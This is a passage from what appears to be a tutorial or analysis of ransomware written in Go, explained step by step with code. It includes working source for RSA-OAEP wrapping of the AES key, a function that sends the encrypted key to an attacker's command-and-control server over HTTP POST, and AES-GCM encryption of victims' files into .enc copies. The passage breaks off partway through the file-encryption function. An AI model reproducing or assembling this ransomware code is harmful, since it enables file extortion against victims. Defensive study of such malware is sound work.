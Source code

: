 ```
   label := []byte("") // Label for OAEP padding (can be empty)
   hash := sha256.New()
   encryptedKey, err := rsa.EncryptOAEP(hash, rand.Reader, rsaPubKey, aesKey, label)
   if err != nil {
    return nil, err
   }
   return encryptedKey, nil
  }
```

. The **AES key is encrypted with RSA** using **OAEP padding with SHA-256**.

- The **RSA public key** is extracted and parsed from PEM format.
- `rsa.EncryptOAEP()`securely encrypts the AES key, ensuring that only the attacker with the RSA private ke**y** can decrypt it.

#### 3. Sending the Encrypted Key to the C2 Server

Once the AES key is encrypted, it is sent to the **attacker’s Command &amp; Control (C2) server**.

```
func sendKeyToC2(encryptedKey []byte) error {
	c2URL := "<C2 Server>" // C2 server address
        // Convert encrypted key to Base64 format
       encodedKey := base64.StdEncoding.EncodeToString(encryptedKey)
 // Send the key via an HTTP POST request
       _, err := http.Post(c2URL, "application/octet-stream", bytes.NewBufferString(encodedKey))
        return err
  }
```

- The **encrypted AES key** is converted to **Base64** for easier transmission.
- The attacker can now **retrieve the AES key** and decrypt files later if the ransom is paid.

#### 4. AES-GCM File Encryption

Each file is encrypted using **AES-GCM (Galois Counter Mode)**, which is a secure mode of AES encryption that provides **both confidentiality and** integrity.

```
func encryptFile(path string, aesKey []byte) error {
	data, err := os.ReadFile(path) // Read the file content
	if err != nil {
		return err
	}
        // Create AES cipher block
     block, err := aes.NewCipher(aesKey)
     if err != nil {
      return err
     }
     gcm, err := cipher.NewGCM(block) // Use GCM mode
     if err != nil {
      return err
     }
 // Generate a random nonce (needed for GCM mode)
     nonce := make([]byte, gcm.NonceSize())
   if _, err := io.ReadFull(rand.Reader, nonce); err != nil {
      return err
 }
 // Encrypt the file content
     ciphertext := gcm.Seal(nonce, nonce, data, nil)
 // Save the encrypted data to a new file
     encPath := path + ".enc"
     err = os.WriteFile(encPath, ciphertext, 0666)
     if err != nil {
      return err
 }
```